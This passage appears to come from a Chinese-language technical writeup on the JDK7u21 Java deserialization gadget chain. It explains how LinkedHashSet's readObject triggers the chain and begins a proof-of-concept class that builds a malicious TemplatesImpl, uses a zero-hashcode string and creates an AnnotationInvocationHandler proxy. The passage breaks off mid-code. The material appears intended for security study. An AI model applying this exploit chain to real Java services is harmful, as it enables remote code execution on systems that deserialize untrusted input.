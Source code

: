 ```java
Templates templates = (Templates)Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), allIfaces, tempHandler);

HashMap hashmap = new HashMap();
hashmap.put(templatesImpl, "templatesImpl");
hashmap.put(templates, "templates");

```

### ***LinkedHashSet class***

我们最终是要通过反序列化里触发我们的调用链，所以我们需要在 ```readObject``` 反序列化方法中寻找是否有调用 ```map``` 的 ```put``` 方法.在 ```HashSet``` 的 ```readObject``` 反序列化方法中会循环往 ```map``` 对象中 ```put``` 值.根据 ```writeObject``` 序列化我们知道，每次写入的对象为 ```map``` 的 ```key``` 值.所以我们创建的 ```LinkedHashSet``` 对象时，首先写入 ```templatesImpl``` 对象，然后写入 ```templates```.然后调用 ```writeObject``` 写入 ```LinkedHashSet``` 对象.使用 ```LinkedHashSet``` 来添加值是因为 ```LinkedHashSet``` 能够保证值的加入顺序.


```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in any hidden serialization magic
    s.defaultReadObject();

    // Read in HashMap capacity and load factor and create backing HashMap
    int capacity = s.readInt();
    float loadFactor = s.readFloat();
    map = (((HashSet)this) instanceof LinkedHashSet ?
           new LinkedHashMap<E,Object>(capacity, loadFactor) :
           new HashMap<E,Object>(capacity, loadFactor));

    // Read in size
    int size = s.readInt();

    // Read in all elements in the proper order.
    for (int i=0; i<size; i++) {
        E e = (E) s.readObject();
        map.put(e, PRESENT);
    }
}
```


## **POC**


最终 POC 如下：

```java
public class JDK7u21 {

public static void main(String[] args) throws Exception {

    TemplatesImpl templatesImpl = createTemplatesImpl("calc", TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);

    String zeroHashCodeStr = "f5a5a608";

    HashMap map = new HashMap();
    map.put(zeroHashCodeStr, "ssss");

    System.getProperties().put("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");

    InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").
            newInstance(Templates.class, map);
```